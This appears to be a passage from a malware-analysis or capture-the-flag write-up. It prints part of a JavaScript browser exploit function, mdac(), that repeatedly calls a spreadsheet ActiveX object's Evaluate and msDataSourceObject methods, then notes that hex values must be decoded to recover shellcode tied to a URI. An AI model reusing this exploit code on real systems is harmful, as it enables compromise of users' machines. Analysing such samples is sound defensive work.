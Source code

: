 ```
			e.push(0);
			e.push(window);
			for (i = 0; i < e.length; i++) {
				for (j = 0; j < 10; j++) {
					try {
						objspread.Evaluate(e[i]);
					} catch (e) {
					}
				}
			}
			window.status = e[3] + '';
			for (j = 0; j < 10; j++) {
				try {
					objspread.msDataSourceObject(e[3]);
				} catch (e) {
				}
			}
		} catch (e) {
		}
	}
	Complete();
}
mdac();
```

![c8f84f1f7d3b0ad2d30e3300ded9d07f.png](/_resources/c8f84f1f7d3b0ad2d30e3300ded9d07f.png)

We have to pick each one of them and convert them from Hex, which we will eventually find out that `shellcode` from `spreadsheet()` related to uri we are looking for
